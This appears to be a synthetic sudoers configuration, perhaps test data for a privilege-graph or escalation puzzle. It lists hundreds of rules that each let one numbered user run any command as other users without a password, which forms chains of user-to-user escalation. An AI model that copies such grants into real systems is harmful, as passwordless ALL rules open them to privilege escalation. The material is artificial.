u304 ALL=(u349, u723) NOPASSWD: ALL
u305 ALL=(u818) NOPASSWD: ALL
u306 ALL=(u395) NOPASSWD: ALL
u307 ALL=(u864) NOPASSWD: ALL
u308 ALL=(u24) NOPASSWD: ALL
u309 ALL=(u57, u343, u717) NOPASSWD: ALL
u310 ALL=(u357, u731) NOPASSWD: ALL
u311 ALL=(u552, u926) NOPASSWD: ALL
u312 ALL=(u346) NOPASSWD: ALL
u313 ALL=(u679, u842) NOPASSWD: ALL
u314 ALL=(u693) NOPASSWD: ALL
u315 ALL=(u52, u888) NOPASSWD: ALL
u316 ALL=(u85, u546, u709, u920) NOPASSWD: ALL
u317 ALL=(u503) NOPASSWD: ALL
u318 ALL=(u836) NOPASSWD: ALL
u319 ALL=(u77, u301) NOPASSWD: ALL
u320 ALL=(u110) NOPASSWD: ALL
u321 ALL=(u703) NOPASSWD: ALL
u322 ALL=(u12, u80, u497) NOPASSWD: ALL
u323 ALL=(u375, u538, u912) NOPASSWD: ALL
u324 ALL=(u706) NOPASSWD: ALL
u325 ALL=(u296) NOPASSWD: ALL
u326 ALL=(u622, u833) NOPASSWD: ALL
u327 ALL=(u874) NOPASSWD: ALL
u328 ALL=(u7, u906) NOPASSWD: ALL
u329 ALL=(u489, u700, u863) NOPASSWD: ALL
u330 ALL=(u521) NOPASSWD: ALL
u331 ALL=(u535) NOPASSWD: ALL
u332 ALL=(u32, u356) NOPASSWD: ALL
u333 ALL=(u65, u825) NOPASSWD: ALL
u334 ALL=(u857) NOPASSWD: ALL
u335 ALL=(u35, u361, u735) NOPASSWD: ALL
u336 ALL=(u692) NOPASSWD: ALL
u337 ALL=(u350) NOPASSWD: ALL
u338 ALL=(u251, u819) NOPASSWD: ALL
u339 ALL=(u60, u284, u559) NOPASSWD: ALL
u340 ALL=(u654) NOPASSWD: ALL
u341 ALL=(u686) NOPASSWD: ALL
u342 ALL=(u276, u507, u881) NOPASSWD: ALL
u343 ALL=(u309, u602) NOPASSWD: ALL
u344 ALL=(u553) NOPASSWD: ALL
u345 ALL=(u279, u510) NOPASSWD: ALL
u346 ALL=(u20, u312, u843) NOPASSWD: ALL
u347 ALL=(u664, u875) NOPASSWD: ALL
u348 ALL=(u515, u678, u889) NOPASSWD: ALL
u349 ALL=(u304, u710) NOPASSWD: ALL
u350 ALL=(u337, u504) NOPASSWD: ALL
u351 ALL=(u463) NOPASSWD: ALL
u352 ALL=(u184) NOPASSWD: ALL
u353 ALL=(u217, u672) NOPASSWD: ALL
u354 ALL=(u26, u867) NOPASSWD: ALL
u355 ALL=(u661, u962) NOPASSWD: ALL
u356 ALL=(u332, u539, u913) NOPASSWD: ALL
u357 ALL=(u297, u310, u870) NOPASSWD: ALL
u358 ALL=(u829) NOPASSWD: ALL
u359 ALL=(u997) NOPASSWD: ALL
u360 ALL=(u875) NOPASSWD: ALL
u361 ALL=(u335, u696) NOPASSWD: ALL
u362 ALL=(u490, u864) NOPASSWD: ALL
u363 ALL=(u237, u292, u685) NOPASSWD: ALL
u364 ALL=(u270, u536) NOPASSWD: ALL
u365 ALL=(u658) NOPASSWD: ALL
u366 ALL=(u690, u853) NOPASSWD: ALL
u367 ALL=(u647, u948) NOPASSWD: ALL
u368 ALL=(u679) NOPASSWD: ALL
u369 ALL=(u693) NOPASSWD: ALL
u370 ALL=(u265, u514) NOPASSWD: ALL
u371 ALL=(u6) NOPASSWD: ALL
u372 ALL=(u641) NOPASSWD: ALL
u373 ALL=(u257, u519) NOPASSWD: ALL
u374 ALL=(u476, u850) NOPASSWD: ALL
u375 ALL=(u323, u508) NOPASSWD: ALL
u376 ALL=(u192, u247, u465, u766) NOPASSWD: ALL
u377 ALL=(u1, u717) NOPASSWD: ALL
u378 ALL=(u812) NOPASSWD: ALL
u379 ALL=(u470, u844) NOPASSWD: ALL
u380 ALL=(u665) NOPASSWD: ALL
u381 ALL=(u679) NOPASSWD: ALL
u382 ALL=(u500, u711, u874) NOPASSWD: ALL
u383 ALL=(u220) NOPASSWD: ALL
u384 ALL=(u198, u253) NOPASSWD: ALL
u385 ALL=(u641) NOPASSWD: ALL
u386 ALL=(u836) NOPASSWD: ALL
u387 ALL=(u245, u494, u868) NOPASSWD: ALL
u388 ALL=(u278, u825) NOPASSWD: ALL
u389 ALL=(u784) NOPASSWD: ALL
u390 ALL=(u180, u248, u497) NOPASSWD: ALL
u391 ALL=(u213) NOPASSWD: ALL
u392 ALL=(u651) NOPASSWD: ALL
u393 ALL=(u819) NOPASSWD: ALL
u394 ALL=(u273, u697) NOPASSWD: ALL
u395 ALL=(u238, u306, u491, u955) NOPASSWD: ALL
u396 ALL=(u120) NOPASSWD: ALL
u397 ALL=(u208, u781) NOPASSWD: ALL
u398 ALL=(u521) NOPASSWD: ALL
u399 ALL=(u480, u854) NOPASSWD: ALL
u400 ALL=(u648) NOPASSWD: ALL
u401 ALL=(u233, u469, u843) NOPASSWD: ALL
u402 ALL=(u266, u857) NOPASSWD: ALL
u403 ALL=(u515) NOPASSWD: ALL
u404 ALL=(u113, u984) NOPASSWD: ALL
u405 ALL=(u431, u805) NOPASSWD: ALL
u406 ALL=(u683) NOPASSWD: ALL
u407 ALL=(u477, u851) NOPASSWD: ALL
u408 ALL=(u138, u206, u261, u672) NOPASSWD: ALL
u409 ALL=(u767) NOPASSWD: ALL
u410 ALL=(u108, u881) NOPASSWD: ALL
u411 ALL=(u840) NOPASSWD: ALL
u412 ALL=(u634) NOPASSWD: ALL
u413 ALL=(u666, u829) NOPASSWD: ALL
u414 ALL=(u133, u188, u623, u924) NOPASSWD: ALL
u415 ALL=(u166, u501, u875) NOPASSWD: ALL
u416 ALL=(u970) NOPASSWD: ALL
u417 ALL=(u791) NOPASSWD: ALL
u418 ALL=(u823) NOPASSWD: ALL
u419 ALL=(u837) NOPASSWD: ALL
u420 ALL=(u658) NOPASSWD: ALL
u421 ALL=(u161, u452) NOPASSWD: ALL
u422 ALL=(u194) NOPASSWD: ALL
u423 ALL=(u63, u661) NOPASSWD: ALL
u424 ALL=(u994) NOPASSWD: ALL
u425 ALL=(u186, u652) NOPASSWD: ALL
u426 ALL=(u219, u446, u609, u983) NOPASSWD: ALL
u427 ALL=(u88, u861) NOPASSWD: ALL
u428 ALL=(u121, u189, u655) NOPASSWD: ALL
u429 ALL=(u154, u222, u476) NOPASSWD: ALL
u430 ALL=(u945) NOPASSWD: ALL
u431 ALL=(u405) NOPASSWD: ALL
u432 ALL=(u214, u855) NOPASSWD: ALL
u433 ALL=(u812) NOPASSWD: ALL
u434 ALL=(u116, u470) NOPASSWD: ALL
u435 ALL=(u149, u484) NOPASSWD: ALL
u436 ALL=(u679) NOPASSWD: ALL
u437 ALL=(u638) NOPASSWD: ALL
u438 ALL=(u141, u806, u969) NOPASSWD: ALL
u439 ALL=(u174, u627) NOPASSWD: ALL
u440 ALL=(u641) NOPASSWD: ALL
u441 ALL=(u836) NOPASSWD: ALL
u442 ALL=(u54, u109, u768) NOPASSWD: ALL
u443 ALL=(u963) NOPASSWD: ALL
u444 ALL=(u841) NOPASSWD: ALL
u445 ALL=(u169, u635, u798) NOPASSWD: ALL
u446 ALL=(u147, u202, u426, u456, u830) NOPASSWD: ALL
u447 ALL=(u925) NOPASSWD: ALL
u448 ALL=(u49, u104, u502, u665) NOPASSWD: ALL
u449 ALL=(u82, u459) NOPASSWD: ALL
u450 ALL=(u792) NOPASSWD: ALL
u451 ALL=(u987) NOPASSWD: ALL
u452 ALL=(u129, u421) NOPASSWD: ALL
u453 ALL=(u107, u162, u659) NOPASSWD: ALL
u454 ALL=(u616) NOPASSWD: ALL
u455 ALL=(u9) NOPASSWD: ALL
u456 ALL=(u446, u526) NOPASSWD: ALL
u457 ALL=(u621, u995) NOPASSWD: ALL
u458 ALL=(u816) NOPASSWD: ALL
u459 ALL=(u157, u449, u610) NOPASSWD: ALL
u460 ALL=(u135) NOPASSWD: ALL
u461 ALL=(u4, u819) NOPASSWD: ALL
u462 ALL=(u37) NOPASSWD: ALL
u463 ALL=(u351, u810) NOPASSWD: ALL
u464 ALL=(u694, u767) NOPASSWD: ALL
u465 ALL=(u29, u376, u645) NOPASSWD: ALL
u466 ALL=(u62, u813) NOPASSWD: ALL
u467 ALL=(u634) NOPASSWD: ALL
u468 ALL=(u729) NOPASSWD: ALL
u469 ALL=(u401) NOPASSWD: ALL
u470 ALL=(u379, u434) NOPASSWD: ALL
u471 ALL=(u596, u970) NOPASSWD: ALL
u472 ALL=(u57, u628, u791) NOPASSWD: ALL
u473 ALL=(u90, u642, u805) NOPASSWD: ALL
u474 ALL=(u764) NOPASSWD: ALL
u475 ALL=(u932) NOPASSWD: ALL
u476 ALL=(u374, u429, u590, u753) NOPASSWD: ALL
u477 ALL=(u407) NOPASSWD: ALL
u478 ALL=(u799) NOPASSWD: ALL
u479 ALL=(u17, u85, u620, u994) NOPASSWD: ALL
u480 ALL=(u50, u118, u399) NOPASSWD: ALL
u481 ALL=(u666) NOPASSWD: ALL
u482 ALL=(u487, u999) NOPASSWD: ALL
u483 ALL=(u110, u956) NOPASSWD: ALL
u484 ALL=(u143, u435, u988) NOPASSWD: ALL
u485 ALL=(u571) NOPASSWD: ALL
u486 ALL=(u45, u823) NOPASSWD: ALL
u487 ALL=(u23, u482, u617) NOPASSWD: ALL
u488 ALL=(u950) NOPASSWD: ALL
u489 ALL=(u329, u771) NOPASSWD: ALL
u490 ALL=(u362) NOPASSWD: ALL
u491 ALL=(u103, u395, u817, u980) NOPASSWD: ALL
u492 ALL=(u701, u774) NOPASSWD: ALL
u493 ALL=(u18) NOPASSWD: ALL
u494 ALL=(u387) NOPASSWD: ALL
u495 ALL=(u779, u942) NOPASSWD: ALL
u496 ALL=(u974) NOPASSWD: ALL
u497 ALL=(u43, u98, u322, u390, u768) NOPASSWD: ALL
u498 ALL=(u76, u646, u809) NOPASSWD: ALL
u499 ALL=(u0, u977) NOPASSWD: ALL
u500 ALL=(u382) NOPASSWD: ALL
u501 ALL=(u415) NOPASSWD: ALL
u502 ALL=(u448) NOPASSWD: ALL
u503 ALL=(u262, u317, u803) NOPASSWD: ALL
u504 ALL=(u3, u58, u350, u760, u971) NOPASSWD: ALL
u505 ALL=(u792) NOPASSWD: ALL
u506 ALL=(u806) NOPASSWD: ALL
u507 ALL=(u342, u627) NOPASSWD: ALL
u508 ALL=(u375) NOPASSWD: ALL
u509 ALL=(u754) NOPASSWD: ALL
u510 ALL=(u53, u345, u575, u949) NOPASSWD: ALL
u511 ALL=(u31, u963) NOPASSWD: ALL
u512 ALL=(u621) NOPASSWD: ALL
u513 ALL=(u716) NOPASSWD: ALL
u514 ALL=(u370, u838, u911) NOPASSWD: ALL
u515 ALL=(u348, u403) NOPASSWD: ALL
u516 ALL=(u217, u583, u957) NOPASSWD: ALL
u517 ALL=(u26, u778) NOPASSWD: ALL
u518 ALL=(u572) NOPASSWD: ALL
u519 ALL=(u373, u824) NOPASSWD: ALL
u520 ALL=(u297) NOPASSWD: ALL
u521 ALL=(u51, u330, u398) NOPASSWD: ALL
u522 ALL=(u772, u935) NOPASSWD: ALL
u523 ALL=(u786) NOPASSWD: ALL
u524 ALL=(u607, u981) NOPASSWD: ALL
u525 ALL=(u19) NOPASSWD: ALL
u526 ALL=(u456, u897) NOPASSWD: ALL
u527 ALL=(u270) NOPASSWD: ALL
u528 ALL=(u303, u943) NOPASSWD: ALL
u529 ALL=(u601) NOPASSWD: ALL
u530 ALL=(u205, u932) NOPASSWD: ALL
u531 ALL=(u14) NOPASSWD: ALL
u532 ALL=(u604) NOPASSWD: ALL
u533 ALL=(u726) NOPASSWD: ALL
u534 ALL=(u298) NOPASSWD: ALL
u535 ALL=(u39, u263, u331, u715, u926) NOPASSWD: ALL
u536 ALL=(u72, u364) NOPASSWD: ALL
u537 ALL=(u761) NOPASSWD: ALL
u538 ALL=(u323, u582) NOPASSWD: ALL
u539 ALL=(u356) NOPASSWD: ALL
u540 ALL=(u628) NOPASSWD: ALL
u541 ALL=(u258, u961) NOPASSWD: ALL
u542 ALL=(u291, u544, u918) NOPASSWD: ALL
u543 ALL=(u576) NOPASSWD: ALL
u544 ALL=(u542, u964) NOPASSWD: ALL
u545 ALL=(u283, u785) NOPASSWD: ALL
u546 ALL=(u316) NOPASSWD: ALL
u547 ALL=(u912) NOPASSWD: ALL
u548 ALL=(u163, u286, u790) NOPASSWD: ALL
u549 ALL=(u747) NOPASSWD: ALL
u550 ALL=(u779, u1000) NOPASSWD: ALL
u551 ALL=(u736) NOPASSWD: ALL
u552 ALL=(u311, u614, u988) NOPASSWD: ALL
u553 ALL=(u344, u947) NOPASSWD: ALL
u554 ALL=(u213, u741) NOPASSWD: ALL
u555 ALL=(u246, u562, u936) NOPASSWD: ALL
u556 ALL=(u730) NOPASSWD: ALL
u557 ALL=(u608, u771, u982) NOPASSWD: ALL
u558 ALL=(u238, u565, u866) NOPASSWD: ALL
u559 ALL=(u271, u339) NOPASSWD: ALL
u560 ALL=(u719) NOPASSWD: ALL
u561 ALL=(u570, u733) NOPASSWD: ALL
u562 ALL=(u555, u765) NOPASSWD: ALL
u563 ALL=(u860) NOPASSWD: ALL
u564 ALL=(u123, u681) NOPASSWD: ALL
u565 ALL=(u266, u558, u768) NOPASSWD: ALL
u566 ALL=(u244, u299) NOPASSWD: ALL
u567 ALL=(u922) NOPASSWD: ALL
u568 ALL=(u146, u716) NOPASSWD: ALL
u569 ALL=(u179, u594, u968) NOPASSWD: ALL
u570 ALL=(u561, u762, u925) NOPASSWD: ALL
u571 ALL=(u485, u583) NOPASSWD: ALL
u572 ALL=(u226, u239, u518, u916) NOPASSWD: ALL
u573 ALL=(u204) NOPASSWD: ALL
u574 ALL=(u751) NOPASSWD: ALL
u575 ALL=(u510, u919) NOPASSWD: ALL
u576 ALL=(u264, u543, u740) NOPASSWD: ALL
u577 ALL=(u754) NOPASSWD: ALL
u578 ALL=(u166) NOPASSWD: ALL
u579 ALL=(u199) NOPASSWD: ALL
u580 ALL=(u232) NOPASSWD: ALL
u581 ALL=(u734) NOPASSWD: ALL
u582 ALL=(u134, u538, u748) NOPASSWD: ALL
u583 ALL=(u516, u571, u943) NOPASSWD: ALL
u584 ALL=(u257) NOPASSWD: ALL
u585 ALL=(u696) NOPASSWD: ALL
u586 ALL=(u159, u227) NOPASSWD: ALL
u587 ALL=(u260, u905) NOPASSWD: ALL
u588 ALL=(u726, u937) NOPASSWD: ALL
u589 ALL=(u219, u894) NOPASSWD: ALL
u590 ALL=(u252, u476, u772) NOPASSWD: ALL
u591 ALL=(u285, u593, u967) NOPASSWD: ALL
u592 ALL=(u154, u989) NOPASSWD: ALL
u593 ALL=(u187, u591, u720) NOPASSWD: ALL
u594 ALL=(u569) NOPASSWD: ALL
u595 ALL=(u929) NOPASSWD: ALL
u596 ALL=(u471, u723) NOPASSWD: ALL
u597 ALL=(u212) NOPASSWD: ALL
u598 ALL=(u796, u934) NOPASSWD: ALL
u599 ALL=(u127, u182) NOPASSWD: ALL
u600 ALL=(u160, u923) NOPASSWD: ALL
u601 ALL=(u529, u717, u880) NOPASSWD: ALL
u602 ALL=(u343) NOPASSWD: ALL
u603 ALL=(u207, u926) NOPASSWD: ALL
u604 ALL=(u240, u532, u747) NOPASSWD: ALL
u605 ALL=(u54) NOPASSWD: ALL
u606 ALL=(u87, u874) NOPASSWD: ALL
u607 ALL=(u524, u752) NOPASSWD: ALL
u608 ALL=(u557, u709) NOPASSWD: ALL
u609 ALL=(u426, u741) NOPASSWD: ALL
u610 ALL=(u167, u235, u459) NOPASSWD: ALL
u611 ALL=(u714) NOPASSWD: ALL
u612 ALL=(u82) NOPASSWD: ALL
u613 ALL=(u115, u703) NOPASSWD: ALL
u614 ALL=(u552, u898) NOPASSWD: ALL
u615 ALL=(u912) NOPASSWD: ALL
u616 ALL=(u107, u454) NOPASSWD: ALL
u617 ALL=(u140, u487) NOPASSWD: ALL
u618 ALL=(u860) NOPASSWD: ALL
u619 ALL=(u42) NOPASSWD: ALL
u620 ALL=(u75, u479, u906) NOPASSWD: ALL
u621 ALL=(u457, u512, u727) NOPASSWD: ALL
u622 ALL=(u326) NOPASSWD: ALL
u623 ALL=(u135, u414, u773, u936) NOPASSWD: ALL
u624 ALL=(u168) NOPASSWD: ALL
u625 ALL=(u689) NOPASSWD: ALL
u626 ALL=(u70, u884) NOPASSWD: ALL
u627 ALL=(u439, u507, u678) NOPASSWD: ALL
u628 ALL=(u193, u472, u540, u930) NOPASSWD: ALL
u629 ALL=(u887) NOPASSWD: ALL
u630 ALL=(u40, u95) NOPASSWD: ALL
u631 ALL=(u128, u878) NOPASSWD: ALL
u632 ALL=(u892) NOPASSWD: ALL
u633 ALL=(u713) NOPASSWD: ALL
u634 ALL=(u412, u467, u881) NOPASSWD: ALL
u635 ALL=(u445, u702) NOPASSWD: ALL
u636 ALL=(u954) NOPASSWD: ALL
u637 ALL=(u68, u123) NOPASSWD: ALL
u638 ALL=(u101, u156, u437) NOPASSWD: ALL
u639 ALL=(u664) NOPASSWD: ALL
u640 ALL=(u916) NOPASSWD: ALL
u641 ALL=(u93, u148, u372, u385, u440, u710) NOPASSWD: ALL
u642 ALL=(u181, u473, u905) NOPASSWD: ALL
u643 ALL=(u50) NOPASSWD: ALL
u644 ALL=(u28, u83, u151) NOPASSWD: ALL
u645 ALL=(u465) NOPASSWD: ALL
u646 ALL=(u498, u867) NOPASSWD: ALL
u647 ALL=(u367, u899) NOPASSWD: ALL
u648 ALL=(u400, u913) NOPASSWD: ALL
u649 ALL=(u734) NOPASSWD: ALL
u650 ALL=(u23) NOPASSWD: ALL
u651 ALL=(u56, u392, u861) NOPASSWD: ALL
u652 ALL=(u425, u682) NOPASSWD: ALL
u653 ALL=(u696) NOPASSWD: ALL
u654 ALL=(u48, u103, u272, u340, u728, u891) NOPASSWD: ALL
u655 ALL=(u81, u136, u428) NOPASSWD: ALL
u656 ALL=(u945) NOPASSWD: ALL
u657 ALL=(u758, u896) NOPASSWD: ALL
u658 ALL=(u16, u365, u420) NOPASSWD: ALL
u659 ALL=(u453, u885) NOPASSWD: ALL
u660 ALL=(u679) NOPASSWD: ALL
u661 ALL=(u8, u300, u355, u423, u720) NOPASSWD: ALL
u662 ALL=(u41, u752) NOPASSWD: ALL
u663 ALL=(u847) NOPASSWD: ALL
u664 ALL=(u11, u347, u639, u668) NOPASSWD: ALL
u665 ALL=(u44, u380, u448) NOPASSWD: ALL
u666 ALL=(u413, u481, u714) NOPASSWD: ALL
u667 ALL=(u671) NOPASSWD: ALL
u668 ALL=(u36, u664) NOPASSWD: ALL
u669 ALL=(u69, u882) NOPASSWD: ALL
u670 ALL=(u676) NOPASSWD: ALL
u671 ALL=(u667, u871) NOPASSWD: ALL
u672 ALL=(u353, u408) NOPASSWD: ALL
u673 ALL=(u706, u917) NOPASSWD: ALL
u674 ALL=(u255, u874) NOPASSWD: ALL
u675 ALL=(u64, u288) NOPASSWD: ALL
u676 ALL=(u97, u670, u865) NOPASSWD: ALL
u677 ALL=(u822) NOPASSWD: ALL
u678 ALL=(u280, u348, u627) NOPASSWD: ALL
u679 ALL=(u313, u368, u381, u436, u660, u868) NOPASSWD: ALL
u680 ALL=(u122, u689) NOPASSWD: ALL
u681 ALL=(u564) NOPASSWD: ALL
u682 ALL=(u24, u652, u898) NOPASSWD: ALL
u683 ALL=(u406, u857) NOPASSWD: ALL
u684 ALL=(u220) NOPASSWD: ALL
u685 ALL=(u363, u846) NOPASSWD: ALL
u686 ALL=(u341, u697, u860) NOPASSWD: ALL
u687 ALL=(u892) NOPASSWD: ALL
u688 ALL=(u19, u713) NOPASSWD: ALL
u689 ALL=(u52, u625, u680) NOPASSWD: ALL
u690 ALL=(u366) NOPASSWD: ALL
u691 ALL=(u854) NOPASSWD: ALL
u692 ALL=(u281, u336) NOPASSWD: ALL
u693 ALL=(u22, u77, u314, u369, u843) NOPASSWD: ALL
u694 ALL=(u464, u721) NOPASSWD: ALL
u695 ALL=(u916) NOPASSWD: ALL
u696 ALL=(u361, u585, u653) NOPASSWD: ALL
u697 ALL=(u394, u686) NOPASSWD: ALL
u698 ALL=(u263, u837) NOPASSWD: ALL
u699 ALL=(u72, u241, u296, u878) NOPASSWD: ALL
u700 ALL=(u329, u910) NOPASSWD: ALL
u701 ALL=(u492) NOPASSWD: ALL
u702 ALL=(u635) NOPASSWD: ALL
u703 ALL=(u321, u613) NOPASSWD: ALL
u704 ALL=(u872) NOPASSWD: ALL
u705 ALL=(u829) NOPASSWD: ALL
u706 ALL=(u32, u201, u269, u324, u673) NOPASSWD: ALL
u707 ALL=(u10, u739, u902) NOPASSWD: ALL
u708 ALL=(u997) NOPASSWD: ALL
u709 ALL=(u316, u608) NOPASSWD: ALL
u710 ALL=(u349, u641, u823) NOPASSWD: ALL
u711 ALL=(u382) NOPASSWD: ALL
u712 ALL=(u196, u251) NOPASSWD: ALL
u713 ALL=(u5, u229, u633, u688) NOPASSWD: ALL
u714 ALL=(u611, u666) NOPASSWD: ALL
u715 ALL=(u535) NOPASSWD: ALL
u716 ALL=(u221, u276, u513, u568) NOPASSWD: ALL
u717 ALL=(u254, u309, u377, u601) NOPASSWD: ALL
u718 ALL=(u847) NOPASSWD: ALL
u719 ALL=(u224, u560, u861) NOPASSWD: ALL
u720 ALL=(u593, u661) NOPASSWD: ALL
u721 ALL=(u694) NOPASSWD: ALL
u722 ALL=(u809) NOPASSWD: ALL
u723 ALL=(u249, u304, u596) NOPASSWD: ALL
u724 ALL=(u282) NOPASSWD: ALL
u725 ALL=(u977) NOPASSWD: ALL
u726 ALL=(u184, u533, u588, u871) NOPASSWD: ALL
u727 ALL=(u621) NOPASSWD: ALL
u728 ALL=(u654) NOPASSWD: ALL
u729 ALL=(u176, u468) NOPASSWD: ALL
u730 ALL=(u209, u277, u556, u833) NOPASSWD: ALL
u731 ALL=(u310) NOPASSWD: ALL
u732 ALL=(u179, u879) NOPASSWD: ALL
u733 ALL=(u561) NOPASSWD: ALL
u734 ALL=(u302, u581, u649) NOPASSWD: ALL
u735 ALL=(u335, u827) NOPASSWD: ALL
u736 ALL=(u204, u551, u841) NOPASSWD: ALL
u737 ALL=(u237) NOPASSWD: ALL
u738 ALL=(u830) NOPASSWD: ALL
u739 ALL=(u707) NOPASSWD: ALL
u740 ALL=(u576, u903) NOPASSWD: ALL
u741 ALL=(u554, u609) NOPASSWD: ALL
u742 ALL=(u819) NOPASSWD: ALL
u743 ALL=(u177, u232, u987) NOPASSWD: ALL
u744 ALL=(u210, u265, u865) NOPASSWD: ALL
u745 ALL=(u298) NOPASSWD: ALL
u746 ALL=(u854) NOPASSWD: ALL
u747 ALL=(u257, u549, u604) NOPASSWD: ALL
u748 ALL=(u290, u582, u981) NOPASSWD: ALL
u749 ALL=(u104) NOPASSWD: ALL
u750 ALL=(u192, u260, u816) NOPASSWD: ALL
u751 ALL=(u1, u225, u293, u574, u848) NOPASSWD: ALL
u752 ALL=(u607, u662) NOPASSWD: ALL
u753 ALL=(u476) NOPASSWD: ALL
u754 ALL=(u285, u509, u577) NOPASSWD: ALL
u755 ALL=(u973) NOPASSWD: ALL
u756 ALL=(u132) NOPASSWD: ALL
u757 ALL=(u165, u220) NOPASSWD: ALL
u758 ALL=(u198, u657, u840) NOPASSWD: ALL
u759 ALL=(u799) NOPASSWD: ALL
u760 ALL=(u504) NOPASSWD: ALL
u761 ALL=(u190, u245, u537) NOPASSWD: ALL
u762 ALL=(u278, u570) NOPASSWD: ALL
u763 ALL=(u92, u834) NOPASSWD: ALL
u764 ALL=(u125, u474, u791) NOPASSWD: ALL
u765 ALL=(u562) NOPASSWD: ALL
u766 ALL=(u376) NOPASSWD: ALL
u767 ALL=(u409, u464, u796) NOPASSWD: ALL
u768 ALL=(u150, u273, u442, u497, u565, u991) NOPASSWD: ALL
u769 ALL=(u785) NOPASSWD: ALL
u770 ALL=(u120, u826) NOPASSWD: ALL
u771 ALL=(u153, u489, u557, u858) NOPASSWD: ALL
u772 ALL=(u522, u590) NOPASSWD: ALL
u773 ALL=(u623) NOPASSWD: ALL
u774 ALL=(u145, u200, u492) NOPASSWD: ALL
u775 ALL=(u178, u820) NOPASSWD: ALL
u776 ALL=(u988) NOPASSWD: ALL
u777 ALL=(u809) NOPASSWD: ALL
u778 ALL=(u113, u517) NOPASSWD: ALL
u779 ALL=(u495, u550) NOPASSWD: ALL
u780 ALL=(u977) NOPASSWD: ALL
u781 ALL=(u105, u173, u397) NOPASSWD: ALL
u782 ALL=(u206) NOPASSWD: ALL
u783 ALL=(u817) NOPASSWD: ALL
u784 ALL=(u108, u389) NOPASSWD: ALL
u785 ALL=(u545, u769, u833) NOPASSWD: ALL
u786 ALL=(u231, u523, u847) NOPASSWD: ALL
u787 ALL=(u100) NOPASSWD: ALL
u788 ALL=(u133, u974) NOPASSWD: ALL
u789 ALL=(u166, u795) NOPASSWD: ALL
u790 ALL=(u548) NOPASSWD: ALL
u791 ALL=(u417, u472, u764, u841) NOPASSWD: ALL
u792 ALL=(u450, u505, u800) NOPASSWD: ALL
u793 ALL=(u822) NOPASSWD: ALL
u794 ALL=(u73) NOPASSWD: ALL
u795 ALL=(u161, u789) NOPASSWD: ALL
u796 ALL=(u598, u767, u998) NOPASSWD: ALL
u797 ALL=(u63) NOPASSWD: ALL
u798 ALL=(u445) NOPASSWD: ALL
u799 ALL=(u186, u478, u759, u865) NOPASSWD: ALL
u800 ALL=(u219, u792) NOPASSWD: ALL
u801 ALL=(u88, u992) NOPASSWD: ALL
u802 ALL=(u66, u121, u949) NOPASSWD: ALL
u803 ALL=(u503, u827) NOPASSWD: ALL
u804 ALL=(u859) NOPASSWD: ALL
u805 ALL=(u405, u473) NOPASSWD: ALL
u806 ALL=(u91, u214, u438, u506) NOPASSWD: ALL
u807 ALL=(u199) NOPASSWD: ALL
u808 ALL=(u61, u116, u984) NOPASSWD: ALL
u809 ALL=(u94, u498, u722, u777) NOPASSWD: ALL
u810 ALL=(u463, u973) NOPASSWD: ALL
u811 ALL=(u851) NOPASSWD: ALL
u812 ALL=(u141, u378, u433) NOPASSWD: ALL
u813 ALL=(u119, u174, u466, u978) NOPASSWD: ALL
u814 ALL=(u935) NOPASSWD: ALL
u815 ALL=(u21, u89) NOPASSWD: ALL
u816 ALL=(u458, u750, u845) NOPASSWD: ALL
u817 ALL=(u491, u783) NOPASSWD: ALL
u818 ALL=(u13, u305) NOPASSWD: ALL
u819 ALL=(u46, u114, u169, u338, u393, u461, u742, u929) NOPASSWD: ALL
u820 ALL=(u147, u775) NOPASSWD: ALL
u821 ALL=(u16) NOPASSWD: ALL
u822 ALL=(u49, u677, u793) NOPASSWD: ALL
u823 ALL=(u82, u418, u486, u710) NOPASSWD: ALL
u824 ALL=(u519) NOPASSWD: ALL
u825 ALL=(u333, u388) NOPASSWD: ALL
u826 ALL=(u74, u770) NOPASSWD: ALL
u827 ALL=(u735, u803, u953) NOPASSWD: ALL
u828 ALL=(u967) NOPASSWD: ALL
u829 ALL=(u9, u358, u413, u705, u999) NOPASSWD: ALL
u830 ALL=(u446, u738) NOPASSWD: ALL
u831 ALL=(u915) NOPASSWD: ALL
u832 ALL=(u69) NOPASSWD: ALL
u833 ALL=(u34, u102, u326, u730, u785, u961) NOPASSWD: ALL
u834 ALL=(u135, u763) NOPASSWD: ALL
u835 ALL=(u4, u977) NOPASSWD: ALL
u836 ALL=(u318, u386, u441, u991) NOPASSWD: ALL
u837 ALL=(u419, u698) NOPASSWD: ALL
u838 ALL=(u514) NOPASSWD: ALL
u839 ALL=(u29) NOPASSWD: ALL
u840 ALL=(u62, u411, u758) NOPASSWD: ALL
u841 ALL=(u444, u736, u791, u985) NOPASSWD: ALL
u842 ALL=(u313, u944) NOPASSWD: ALL
u843 ALL=(u122, u346, u401, u693) NOPASSWD: ALL
u844 ALL=(u379) NOPASSWD: ALL
u845 ALL=(u816, u947) NOPASSWD: ALL
u846 ALL=(u57, u685) NOPASSWD: ALL
u847 ALL=(u35, u663, u718, u786, u936) NOPASSWD: ALL
u848 ALL=(u751) NOPASSWD: ALL
u849 ALL=(u286) NOPASSWD: ALL
u850 ALL=(u374) NOPASSWD: ALL
u851 ALL=(u60, u407, u811) NOPASSWD: ALL
u852 ALL=(u857) NOPASSWD: ALL
u853 ALL=(u17, u30, u366) NOPASSWD: ALL
u854 ALL=(u399, u691, u746) NOPASSWD: ALL
u855 ALL=(u432, u960) NOPASSWD: ALL
u856 ALL=(u301) NOPASSWD: ALL
u857 ALL=(u55, u110, u334, u402, u683, u852) NOPASSWD: ALL
u858 ALL=(u771) NOPASSWD: ALL
u859 ALL=(u804, u922) NOPASSWD: ALL
u860 ALL=(u563, u618, u686, u954) NOPASSWD: ALL
u861 ALL=(u427, u651, u719, u995) NOPASSWD: ALL
u862 ALL=(u63) NOPASSWD: ALL
u863 ALL=(u274, u329, u984) NOPASSWD: ALL
u864 ALL=(u15, u307, u362, u916) NOPASSWD: ALL
u865 ALL=(u676, u744, u799) NOPASSWD: ALL
u866 ALL=(u558) NOPASSWD: ALL
u867 ALL=(u18, u354, u646, u946) NOPASSWD: ALL
u868 ALL=(u387, u679, u978) NOPASSWD: ALL
u869 ALL=(u201) NOPASSWD: ALL
u870 ALL=(u10, u234, u357) NOPASSWD: ALL
u871 ALL=(u43, u671, u726) NOPASSWD: ALL
u872 ALL=(u704, u940) NOPASSWD: ALL
u873 ALL=(u897) NOPASSWD: ALL
u874 ALL=(u259, u327, u382, u606, u674) NOPASSWD: ALL
u875 ALL=(u347, u360, u415) NOPASSWD: ALL
u876 ALL=(u229) NOPASSWD: ALL
u877 ALL=(u262) NOPASSWD: ALL
u878 ALL=(u3, u295, u631, u699) NOPASSWD: ALL
